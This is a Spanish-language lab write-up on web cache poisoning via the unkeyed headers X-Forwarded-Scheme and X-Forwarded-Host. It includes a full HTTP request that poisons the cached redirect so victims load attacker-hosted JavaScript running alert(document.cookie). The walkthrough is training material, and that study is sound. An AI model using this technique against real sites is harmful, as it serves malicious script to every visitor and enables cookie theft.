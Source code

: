```yaml
---
layout: default
title: 3 - Web cache poisoning with multiple headers
---
```

[Lab: Web cache poisoning with multiple headers](https://www.youtube.com/watch?v=YA1Jhd8op4g&ab_channel=JarnoTimmermans)

Se ha testeado y se ha encontrado que la cabecera  X-Forwarded-Scheme es un unkeyed input.
### ¿Para qué sirve `X-Forwarded-Scheme`?

Cuando un servidor intermedio como un proxy o un balanceador de carga está involucrado en una conexión, podría modificar el esquema de la solicitud por razones de seguridad o eficiencia. Por ejemplo:
- Un cliente puede hacer una solicitud HTTPS a un proxy que luego convierte esa solicitud a HTTP antes de reenviarla al servidor final.
- El encabezado `X-Forwarded-Scheme` permite que el servidor final sepa si la solicitud original fue HTTPS o HTTP, incluso si el proxy ha cambiado el esquema.

Este encabezado puede ser útil para:
- **Aplicar configuraciones de seguridad**: Permitir que el servidor responda con seguridad según el esquema original.
- **Redireccionar o modificar respuestas**: Si un servidor necesita forzar HTTPS, puede leer `X-Forwarded-Scheme` para decidir si debe redirigir al cliente a HTTPS.
  
### Ejemplo de una solicitud con `X-Forwarded-Scheme`

```http
GET /recurso HTTP/1.1
Host: ejemplo.com
X-Forwarded-Scheme: https
```

Aquí, el encabezado `X-Forwarded-Scheme: https` indica que la solicitud original fue HTTPS, aunque podría haber sido transformada a HTTP por un proxy antes de llegar al servidor final.

### Uso en ataques de envenenamiento de caché

El encabezado `X-Forwarded-Scheme` también puede ser una entrada sin clave (unkeyed input) en un servidor, lo que significa que su valor podría no influir en la decisión de la caché. Esto puede explotarse en un ataque de envenenamiento de caché si el servidor utiliza el valor de este encabezado para generar la respuesta, pero la caché lo ignora. 

1. **Manipulación de `X-Forwarded-Scheme`**: Si puedes enviar solicitudes con diferentes valores de `X-Forwarded-Scheme` (por ejemplo, cambiando entre `http` y `https`), el servidor podría generar respuestas ligeramente diferentes. ==Sin embargo, si la caché no incluye `X-Forwarded-Scheme` en la clave de caché==, puede almacenar una respuesta "envenenada".
   
2. **Inyección de contenido malicioso**: Si el valor de `X-Forwarded-Scheme` cambia cómo el servidor genera los enlaces o redirecciones (por ejemplo, generando URLs que comiencen con `http` o `https`), podrías manipular el esquema para forzar la generación de contenido no deseado o inseguro en la respuesta en caché.

3. **Resultado**: La respuesta manipulada se guarda en caché, de modo que las solicitudes posteriores que coincidan con la clave de caché reciben una respuesta que podría contener URLs inseguras o contenido envenenado.

Este tipo de ataque funciona especialmente bien en servidores que confían en los encabezados `X-Forwarded` sin validarlos adecuadamente o que no incluyen esos encabezados en la clave de caché.


1. Si cambias a `X-Forwarded-Scheme: http` y pones un Caché Buster, te va redirigir a la url pero con https, si lo vuelves a cambiar a https no te redirige, la cosa es que detecta si estás usando https para , en el caso contrario, redirigirte.
2. Volvemos a guess headers y encontramos `X-Forwarded-Host` que también es otro unkeyed input y que si queda reflejado en el output.
3. Podemos usarlo para redirigir a una página maliciosa, en concreto podemos aprovecharnos de `/resources/images/tracker.gif` :

```request
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 21
X-Cache: hit
Content-Length: 70

document.write('<img src="/resources/images/tracker.gif?page=post">');
```

Podemos cargar en `https://exploit-0a4e004c04dd8c28815524050189000a.exploit-server.net/resources/images/tracker.gif` : alert(document.cookie);

```request
GET /resources/js/tracking.js HTTP/2
Host: 0abb001904808c8381d325fe0080003e.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
X-Forwarded-Scheme: http
X-Forwarded-Host: exploit-0a4e004c04dd8c28815524050189000a.exploit-server.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0abb001904808c8381d325fe0080003e.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=0, i
```

Entonces cuando se cargue / se cargará el script del recurso `https://exploit-0a4e004c04dd8c28815524050189000a.exploit-server.net/resources/js/tracking.js` y se ejecutará la alerta.
